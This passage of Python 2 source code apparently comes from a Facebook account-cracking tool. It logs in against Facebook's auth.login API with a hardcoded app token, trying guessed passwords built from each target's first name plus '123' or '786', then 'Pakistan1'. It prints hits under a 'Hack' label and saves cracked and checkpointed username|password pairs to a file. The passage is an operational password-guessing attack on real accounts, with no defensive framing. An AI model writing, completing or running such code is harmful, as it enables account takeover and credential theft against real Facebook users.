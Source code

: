 								print '\x1b[1;91mHack💉\x1b[1;97m-\x1b[1;94m✙\x1b[1;97m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;94mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + '123'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;91mHack💉\x1b[1;97m-\x1b[1;94m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;94mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + '786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;91mHack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;94mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = 'Pakistan1'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;91mHack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;94mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)